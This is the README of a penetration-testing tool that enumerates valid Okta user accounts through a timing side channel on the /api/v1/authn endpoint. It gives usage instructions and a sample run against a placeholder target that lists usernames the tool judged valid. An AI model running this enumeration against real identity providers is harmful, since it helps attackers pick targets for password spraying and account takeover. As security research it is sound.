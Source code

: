 # OKTASideChannelAttack
OKTA side channel attack to enumerate users

# Usage
```
$ python okta.py https://target.com/api/v1/authn
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017


Usage: python okta.py [url] [valid_user] [path] [delay]

        Url        Full url to the authn API (/api/v1/authn)
        Valid User Valid user to benchmark the delay
        Path       Path to a list of username
        Delay      Maximum delay difference around 0.010 should be good
```

```
$ python okta.py https://target.com/api/v1/authn ringzer0@team.com users.txt 0.010
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017

[+] Valid user benchmark is 0.265012
[+] Everything slower than 0.255012 will be considered valid
       hacker@team.com is valid
       1337@team.com is valid
```

# Credit
Mr.Un1k0d3r RingZer0 Team
